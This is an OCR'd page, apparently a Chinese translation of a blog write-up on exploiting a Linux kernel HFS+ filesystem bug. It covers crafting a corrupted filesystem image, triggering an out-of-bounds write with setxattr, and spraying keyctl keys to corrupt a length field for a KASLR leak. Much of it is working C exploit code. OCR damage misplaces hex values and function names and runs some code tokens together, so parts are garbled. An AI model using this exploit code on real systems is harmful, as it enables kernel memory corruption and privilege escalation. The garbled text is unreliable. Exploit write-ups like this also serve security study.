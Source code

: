   
我们不知道您怎么想，但对我来说，这  
0x1e看起来  
0x10400e像是一个字节，正在尖叫着被攻击者控制的数据覆盖。一旦我们覆盖它，易受攻击的函数就会堆积文件系统中的任何垃圾，并将  
memcpy()其覆盖在内存中的  
 kmalloc-1k slab 上。  
  
我们如何覆盖它？将这些字节写入此文件。之后，我们只需使用我们的 oracle 安装该文件，然后setxattr使用节点中字典顺序最低的属性执行，这将导致内核空间内存损坏。  
  
```
char *attr_value = "dummy";int result = setxattr("/tmp/mnt0/hacked_node", "user.1", attr_value, strlen(attr_value), 0);if (result != 0)    do_error_exit("setxattr attempt on vuln fs");
```  
  
我们已经完成了第一部分。  
  
KASLR泄漏  
  
现在我们可以破坏和挂载文件系统并触发不受控制的写入原语，是时候选择一些目标对象了。幸运的是，将一堆 喷射到目标缓存中并覆盖这些缓存是一种众所周知的  
struct user_key_payload技巧。现在，在 6.5 上，这些仍然在通用  
 kmalloc 缓存中：  
  
```
upayload = kmalloc(sizeof(*upayload) + datalen, GFP_KERNEL);
```  
  
  
然后，交易的工具是使用 keyctl() 启动一堆密钥，并使它们位于 kmalloc-1k 中，然后触发我们的原语并覆盖   
datalen：  
  
```
structuser_key_payload {  structrcu_headrcu;/* RCU destructor */  unsignedshort datalen; /* length of this data */  char data[] __aligned(__alignof__(u64)); /* actual data */};
```  
  
只需0x400用 sizeof(struct rcu_head)和覆盖我们的 slab 槽，sizeof(unsigned short)然后希望一切顺利。在漏洞代码中，这对应于：  
  
```
voidhack_hfs_keyring(unsignedchar * hfs_buffer, size_t len, uint64_t dummy){    /* Let's check some basic information about our volume */    parse_volume(hfs_buffer, len);    /* First, we hack the attribute B-tree a little bit */    resize_nodes(hfs_buffer, len);    /* Remove root */    remove_root(hfs_buffer, len);    /* Corrupt key length */    corrupt_key_len(hfs_buffer, len, 0x418 - 2);    uint8_t payload[24] = {    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,    0xff, 0xff, 0x53, 0x53, 0x53, 0x53, 0x53, 0x53    };    uint16_t payload_len = sizeof(payload);    /* Write kmalloc-1k payload */    write_payload(hfs_buffer, len, payload, payload_len);}
```  
  
此代码的唯一目的是破坏单个键，并用覆盖其数据长度0xffff，这将是一种非常舒适的越界读取。  
  
如果我们的内核模式  
 mambojambo 成功了，我们实际上可以在用户空间中检查该情况：  
  
```
uint64_t get_keyring_leak(key_serial_t * id_buffer, uint32_t id_buffer_size)`{    uint8_t buffer[USHRT_MAX] = {0};    int32_t keylen;    printf("[+] Checking sprayed keys for corruption\n");    for (uint32_t i = 0; i < id_buffer_size; i++) {        keylen = keyctl(KEYCTL_READ, id_buffer[i], (long)buffer, USHRT_MAX, 0);        if (keylen < 0)            continue;        if (keylen > 1024) {            printf("[+] Found corrupted key, triggering infoleak\n");            return parse_leak(buffer, keylen);        }    }    return0;}
```  
  